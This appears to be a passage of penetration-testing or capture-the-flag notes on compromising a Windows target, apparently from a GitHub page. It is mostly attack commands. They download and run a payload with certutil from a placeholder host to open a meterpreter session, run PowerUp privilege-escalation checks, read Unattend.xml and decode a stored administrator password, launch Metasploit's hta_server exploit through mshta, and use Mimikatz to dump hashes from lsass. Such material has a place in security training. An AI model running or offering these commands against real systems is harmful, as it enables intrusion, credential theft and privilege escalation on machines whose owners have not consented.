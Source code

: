 Target - windows

```bash
# Listener
python -m SimpleHTTPServer 80

# GET
certutil -urlcache -f http://ip/payload.exe payload.exe

# Before exec create a meterpreter session
#Double click on payload and get a meterpreter session

```

In a windows

```shell
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit
cat C:\Windows\Panther\Unattend.xml

## base64 decode
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))
echo $password

# Exec a command root
runas.exe /user:administrator cmd
$password
whoami
administrator
```

Kali

```bash
msfconsole -q
use exploit/windows/misc/hta_server
exploit
```

Windows

```bash
mshta.exe url_generated_by_server.hta
#flag
```

# Dumping hashes with Mimikatz

- It allows for the extraction of clear-text passwords, hashes and kerberos tickets from memory.

- Can be usedto extract hashes from the lsass.exe process memory where hashes are cached.
